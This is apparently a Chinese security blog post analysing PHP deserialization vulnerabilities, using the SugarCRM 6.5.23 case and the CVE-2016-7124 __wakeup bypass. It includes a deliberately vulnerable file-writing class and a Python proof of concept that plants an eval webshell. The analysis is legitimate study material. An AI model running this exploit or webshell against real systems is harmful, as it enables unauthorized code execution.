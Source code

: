 ```yaml
---
layout: page
title: PHP deserialization vulnerability analysis
---
```



* Auth：[Cryin'](https://github.com/Cryin)

### 序列化与反序列化

序列化和反序列化操作会使程序存储或传输PHP 的值或对象更加便利且不丢失其类型和结构。PHP 序列化函数serialize(),其作用是将对象转换为字符串，此字符串包含了表示value 的字节流，可以存储于任何地方；而反序列化函数unserialize(),恰好就是序列化的逆过程,反序列化对单一的已序列化的变量进行操作，将其转换回对象供程序使用。在PHP 序列化及反序列化函数官方介绍中同时也支出，当序列化对象时，PHP 将试图在序列动作之前调用该对象的成员函数__sleep()。如果存在，该方法会先被调用，然后才执行序列化操作。此功能可以用于清理对象，这样就允许对象在被序列化之前做任何清除操作。类似的，当使用unserialize() 恢复对象时， 将调用__wakeup()成员函数。

### 魔术方法
PHP 将所有以__（两个下划线）开头的类方法保留为魔术方法。诸如:

```php
__construct()，
__destruct()，
__call()，
__callStatic()，
__get()，
__set()，
__isset()，
__unset()，
__sleep()，
__wakeup()，
__toString()，
__invoke()，
__set_state()，
__clone()，
__debugInfo()
```

等方法在PHP 中被称为" 魔术方法" （ Magic methods ） 。其中__construct() ，__destruct()分别为构造函数和析构函数，在对象创建和销毁时分别会被自动调用。而正如
上面所说__sleep()及__wakeup()分别会在对象被序列化、反序列化时自动调用。为了更清楚了解序列化、反序列化以及魔术方法的具体作用。看个实例:
```php
<?php
class file {
#private $data="foo\n";
#private $filename = "D:\software\phpStudy\WWW\iast\serialized.txt";
public function __wakeup(){
$this->saveinfo($this->filename,$this->data);
print "__wakeup\r\n";
print '<BR>';
}
function file($in_filename="unnamed",$in_data="file")
{
$this->filename = $in_filename;
$this->data = $in_data;
}
function getname() {
return $this->filename;
}
public function saveinfo($filename,$data) {
file_put_contents($filename,$data);
}
}
$testfile = new file($_GET['filename'],$_GET['data']);
//用serialize 函数将这个实例转化为一个序列化的字符串
$testfiledisc = serialize($testfile);
print $testfiledisc;
print '<BR>';
//在此注销这个类
unset($testfile);
//在这里用unserialize() 还原已经序列化的对象
print "unserialize\r\n";
print '<BR>';
$fileuns = unserialize($testfiledisc);
//此时的$fileuns 已经是前面的$testfile 对象了
$filename = $fileuns->getname();
//这个类此时无需实例化可以继续使用,而且属性和值都是保持在序列化之前的状态
print "The file name is ==> $filename<br>";
print '<BR>';
?>
```
执行上述代码，如图所示: 

![Jietu20181227-221418.jpg](https://i.loli.net/2018/12/27/5c24df773df16.jpg)

### PHP 反序列化漏洞原理

清楚了反序列化及魔术方法，可以了解到，反序列化漏洞利用原理或者说出现该类漏洞需要具备的条件如下:

* 1、反序列化变量可控；
* 2、程序上下文已定义类存在__wakeup()等魔术方法；
* 3、该魔术方法中调用了系统命令执行、文件操作等高危函数且引入了可控反序列化对象的相关属性。

如上面示例代码所示，在file 类中实现了__wakeup 函数并调用了saveinfo 方法，该方法使用file_put_contents 将反序列化后得到的对象的文件名及文件内容属性写如文件。
而filename 及data 变量通过$_GET 获取。这样如果输入形如:
```
unserialize.php?filename=D:\software\phpStudy\WWW\iast\serialized.php&data=
<?php%20phpinfo()?>
```
则可以在程序目录创建serialized.php 文件并写入phpinfo 等执行任意代码。

### 典型案例

SugarCRM 在其<=6.5.23 的版本中存在反序列化漏洞，程序对攻击者恶意构造的序列化数据进行了反序列化的处理，从而使攻击者可以在未授权状态下执行任意代码。这个漏洞可以说是php 反序列化操作的最佳反面教程，讲述了使用反序列化不当，造成可利用魔术方法进行RCE。

漏洞文件service/core/REST/SugarRestSerialize.php 第67 行：

![Jietu20181227-221658.jpg](https://i.loli.net/2018/12/27/5c24df793bf23.jpg)

可以看到rest_data 参数可控，且传入了反序列化函数sugar_unserialize 中。在sugar_unserialize 函数中(include/utils.php 第5039 行开始)，可以看到在反序列化前，对输入参数进行了检查：

![Jietu20181227-221716.jpg](https://i.loli.net/2018/12/27/5c24df777248a.jpg)

该正则检查主要是检测参数是不是序列化后的对象，如：

![Jietu20181227-221732.jpg](https://i.loli.net/2018/12/27/5c24df78027f6.jpg)

然而由于正则不够严谨，我们可以在对象长度前加一个+ 号，即"o:14 -> o:+14"，即可绕过这层检测，从而使得我们可控的数据传入unserialize 函数。序列化参数可控，接下来就是找程序上下文已定义的类中存在可利用的__wakeup 等魔术方法了，在include/SugarCache/SugarCacheFile.php 文件中可以看到__destruct 魔术方
法，且该函数中有文件写入操作。

![Jietu20181227-221748.jpg](https://i.loli.net/2018/12/27/5c24df790da91.jpg)

在sugar_file_put_contents 函数中，调用了file_put_contents 函数，且没有对文件名及文件内容进行检查。但是主意到在反序列化函数调用时会先触发__wakeup 函数而后才会调用析构函数__destruct，但在__wakeup 函数中将对象所有属性值都置空了。所以至此虽然反序列化对象可控，但输入的属性却被清空了。但有一个有意思的漏洞CVE-2016-7124,反序列化一个异常对象时会绕过__wakeup 函数执行。就是当序列化字符串中表示对象属性个数的值大于真实的属性个数时会跳过__wakeup 的执行。如下代码:

```php
<?php
class test{
var $wakeupbypass;
public function __destruct(){
$this->wakeupbypass = "*__destruct<br />";
echo $this->wakeupbypass;
echo "__destruct OK!<br />";
}
public function __wakeup(){
$this->wakeupbypass = "*__wakeup<br />";
echo $this->wakeupbypass;
echo "__wakeup OK!<br />";
}
}
#$a = new test();
#echo serialize($a);
$payload = 'O:4:"test":1:{s:7:"wakeupbypass";N;}';
$payload1 = 'O:4:"test":2:{s:7:"wakeupbypass";N;}';
#$abc = unserialize($payload);
$abc1 = unserialize($payload1);
?>
```
在浏览器访问该页面可以看到wakeup 并没有执行。
![Jietu20181227-221810.jpg](https://i.loli.net/2018/12/27/5c24df770715b.jpg)

最后，生成序列化的payload，并编写poc 如下:
```python
#!/usr/bin/env python
# encoding:utf-8
import requests
class Sugarcrm():
def poctest(self):
url = 'http://10.65.10.195/sugarcrm_dev-6.5.23/service/v4/rest.php'
data = {
'method': 'login',
'input_type': 'Serialize',
'rest_data':
'O:+14:"SugarCacheFile":23:{S:17:"\\00*\\00_cacheFileName";s:15:"../custom/1.php";S:1
6:"\\00*\\00_cacheChanged";b:1;S:14:"\\00*\\00_localStore";a:1:{i:0;s:29:"&lt;?php
eval($_POST[\'HHH\']); ?&gt;";}}',
}
requests.post(url, data=data)
if __name__ == '__main__':
test = Sugarcrm()
test.poctest()
```
执行脚本可生成shell：http://10.65.10.195/sugarcrm_dev-6.5.23/custom/1.php ，关于典型的PHP 反序列化漏洞还可以参考vBulletin 5、Joomla 的反序列化远程代码执行漏洞。详见参考链接。

### 参考
* [1] http://php.net/manual/zh/function.serialize.php
* [2] http://bobao.360.cn/learning/detail/3193.html
* [3] http://www.freebuf.com/vuls/80293.html
* [4] https://codeload.github.com/sugarcrm/sugarcrm_dev/tar.gz/6.5.23
* [5] http://bobao.360.cn/learning/detail/3020.html
* [6] https://bugs.php.net/bug.php?id=72663
* [7] http://blog.nsfocus.net/vbulletin-5-rce-vulnerability/
